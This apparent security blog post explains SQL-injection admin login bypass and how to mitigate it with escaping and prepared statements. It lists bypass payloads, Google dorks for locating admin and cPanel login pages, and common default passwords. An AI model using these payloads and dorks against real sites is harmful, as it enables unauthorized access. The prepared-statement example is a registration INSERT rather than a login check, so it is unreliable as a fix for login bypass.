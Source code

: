```yaml
---
title: Mitigating Admin Login Bypass in Web Security
publishDate: '2024-07-02T08:06:27.420Z'
description: >-
  Understanding and Mitigating Admin Login Bypass in Web Security.
heroImage: {src: './image.png',color: '#d1edfe'}
draft: false
comment: true
---
```

Before exploring the complexities of bypassing admin login mechanisms, it’s crucial to understand what “Admin Login Bypass” actually involves. This technique enables unauthorized access to the admin login page of a website, bypassing standard authentication procedures. This exposure can potentially allow malicious entities to access and modify admin pages, highlighting significant vulnerabilities.

## The Importance of Robust Admin Login Security

The significance of secure admin logins cannot be overstated. Websites with weak authentication systems are prime targets for hackers. It is imperative for website owners to strengthen their admin logins to prevent unauthorized access, thereby protecting sensitive data and maintaining site integrity.

## Connection to SQL Injection

Admin login bypass is closely associated with SQL Injection — a common security vulnerability that allows attackers to impersonate an admin through malformed SQL queries. For example, using a username and password combination like “admin” or “1=1” manipulates the SQL query, granting access without further exploitation.

## Commonly Used SQL Queries for Bypass

In the realm of unauthorized access, certain SQL queries are notoriously used to bypass admin logins. Some of these include:

*   `admin' #`
*   `admin' or '1' = '1`
*   `admin' or '1' = '1' #`
*   `admin 'or 1 = 1 or' '='`
*   `'or 1 = 1 limit 1 -- -+`
*   `' or '1' = '1`
*   `' or 'x' = 'x`
*   `' or 0 = 0 -`
*   `'or 0 = 0 #`
*   `' or 1 = 1 --`
*   `'or' one '=' one`
*   `'or 1 = 1 -- -'or'`

## Using DORKs and Payloads for Bypassing Admin Logins

To ethically test these vulnerabilities in controlled environments, here are some Google DORKs and payloads used to find and exploit weak login systems:

**DORKs:**

*   `inurl:/admin/login.php site:il`
*   `inurl:/admin/login.php "administrator"`
*   `inurl:/cpanel/login.php`
*   `inurl:/cpanel/admin.php`
*   `inurl:/cpanel/`

**Payloads for Auth/Author Bypass:**

*   `' or 1=1 limit 1 -- -+`
*   `'="or'`
*   `admin`
*   `pass`
*   `pass123`
*   `1234`
*   `administrator`
*   `passwd`

## Mitigating the Bypass Vulnerability

To mitigate such vulnerabilities, enhancing script security in login systems is critical. A practical approach includes refining the PHP login script to employ more secure practices:

**Original Code:**
```php
$username = $_POST["username"];  
$password = $_POST["password"];
```
**Revised Code:**
```php
$username = mysqli_real_escape_string($conn, $_POST["username"]);  
$password = mysqli_real_escape_string($conn, $_POST["password"]);
```
Incorporating functions like `mysqli_real_escape_string` helps prevent SQL injection by escaping special characters in input strings, thus securing the login process against such exploits.

## Beyond Simple Escaping: Strengthening Security with Advanced Techniques

While `mysqli_real_escape_string` is beneficial, employing prepared statements offers a more robust defense against SQL Injection. Prepared statements handle all escaping automatically and can improve performance with repeated query executions.

**Example with Prepared Statements using MySQLi:**

```php
// Create database connection  
$conn = new mysqli($servername, $username, $password, $dbname);  
  
// Check connection  
if ($conn->connect_error) {  
    die("Connection failed: " . $conn->connect_error);  
}  
  
// Retrieve data from POST  
$username = $_POST["username"];  
$hashedPassword = password_hash($_POST["password"], PASSWORD_DEFAULT);  
  
// Prepare SQL statement  
$stmt = $conn->prepare("INSERT INTO users (username, password) VALUES (?, ?)");  
  
// Bind parameters to the statement  
$stmt->bind_param("ss", $username, $hashedPassword);  
  
// Execute statement  
$stmt->execute();  
  
// Close statement and connection  
$stmt->close();  
$conn->close();
```
This example demonstrates the security enhancements achieved by using prepared statements and hashing passwords, providing robust protection against SQL injection and securing user passwords effectively.

## Conclusion

In conclusion, the security of admin login systems is paramount. By understanding the methods used for bypasses and employing more secure coding practices, web administrators can significantly reduce vulnerabilities and enhance the security posture of their sites.

vulnerabilities and enhance the security posture of their sites.

* * *

**Thanks to**: Ketapang Cyber Team
